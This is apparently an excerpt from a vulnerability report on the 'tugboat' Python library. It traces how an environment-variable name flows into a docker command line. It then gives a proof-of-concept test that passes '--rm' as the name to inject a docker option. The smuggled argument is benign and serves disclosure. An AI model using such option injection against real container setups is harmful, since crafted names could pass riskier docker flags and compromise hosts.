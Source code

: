  ```
  UserInput (env_name) --> spec.add_environment_variable(env_name, value) --> spec.environment (dict) --> _get_docker_args() --> docker_args (list) --> docker command (string) --> process.run/open_() --> docker execution
  ```

**Security Test Case:**
1. Prepare test environment with Docker installed.
2. Create a Python file named `test_exploit.py` with the following code:
```python
import tugboat
import subprocess

spec = tugboat.ContainerSpec(image="busybox")
spec.add_environment_variable("--rm", "test_value")
tugboat.run_sync(spec)

output = subprocess.run(["docker", "ps", "-a"], capture_output=True, text=True)
print("Docker containers after running tugboat:")
print(output.stdout)
```
3. Execute the script from the command line: `python test_exploit.py`
4. Analyze the output. The `docker ps -a` output should not list any newly created container from the script, indicating the `--rm` option was injected successfully, and the container was removed immediately after running.
5. If a container related to the script execution is listed in the output, the vulnerability is not effectively demonstrated by this test, or the test itself needs review. The expected outcome is the absence of the container in the list, confirming the command injection leading to `--rm` being executed.